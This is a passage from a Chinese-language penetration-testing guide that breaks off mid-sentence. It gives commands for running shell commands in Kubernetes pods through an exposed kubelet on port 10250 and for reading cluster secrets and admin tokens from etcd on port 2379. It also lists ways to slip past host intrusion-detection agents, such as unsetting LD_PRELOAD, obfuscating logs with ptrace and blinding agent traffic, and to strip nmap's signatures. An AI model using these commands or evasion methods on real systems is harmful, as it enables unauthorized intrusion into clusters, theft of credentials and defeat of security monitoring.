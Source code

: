 1.  `curl -Gks https://host:10250/exec/{namespace}/{podname}/{containername} \`
2.  `-d 'input=1' -d 'output=1' -d 'tty=1' \`
3.  `-d 'command=whoami'`

上述命令得到websocket地址，连接websocket得到命令结果：

```plain
wscat -c "https://host:10250/websocket" --no-check
```

当获取到admin token后，也可以利用该服务端口在pod中执行命令：

```ruby
curl -k -H "Authorization: Bearer $TOKEN" https://host:10250/run/{namespace}/{podname}/{containername} -XPOST -d 'cmd=whoami'
```

### etcd 2379端口攻击

etcd中存放着k8s集群数据，如果可以成功访问该服务端口，则可以获取集群中的敏感信息，包括k8s secrets、admin token、AKID等。

```plain
etcdctl --endpoints=https://host:2379 ls
```

带着cert访问etcd：

```plain
etcdctl --endpoints=https://host:2379 --cacert=ca.crt --key=etcd.key --cert=etcd.crt endpoint health
```

# IDS

本章介绍的IDS包括HIDS和NIDS。

## HIDS

HIDS涉及到如何绕过服务器上的agent。  
业务服务器上默认都部署了agent，如何绕过这些agent也是一个很大的学问。这些agent常常会hook execve来获取和判断执行的命令是否恶意。  
这里有几个思路和大家一起讨论：

-   滞空LD\_PRELOAD来绕过用户态的hook，busybox同理
-   利用代码来执行命令
-   利用ptrace进行日志混淆
-   关闭或致盲agent通信

## NIDS

NIDS涉及到如何绕过网络设备进行扫描。  
在内网渗透中，我们会使用nmap去做网络探测，而nmap自带的一些特征会导致被安全设备识别和拦截。因此我们需要对nmap做一些修改，比如更改nselib/http.lua，把nmap字样删除：  
![image-20201211101437662](assets/1700701638-72390f5104dfc0b001d06dcf70beba1e.png)  
tcpip.cc更改windows窗口大小：  